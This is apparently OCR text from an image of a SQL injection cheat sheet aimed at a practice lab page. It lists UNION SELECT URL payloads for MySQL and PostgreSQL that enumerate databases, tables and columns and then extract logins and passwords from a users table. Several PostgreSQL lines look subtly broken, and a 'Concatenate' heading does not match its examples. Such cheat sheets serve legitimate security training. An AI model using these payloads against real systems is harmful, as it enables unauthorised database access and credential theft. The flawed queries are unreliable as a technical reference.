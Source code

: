 **mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1,2, database()`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select NULL,NULL, database()`

**Finding usernames logged in**

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, current_user()`

**Finding databases**

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, datname from pg_database`

**Finding table names from a database**

**mysql**

```text
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"
```

**postgres**

```text
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"
```

**Finding column names from a table**

**mysql**

```text
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"
```

**postgres**

```text
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"
```

**Concatenate**

Example:

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login from users;` `http://192.168.1.104/Less-1/?id=-1 union select 1, 2, password from users;`
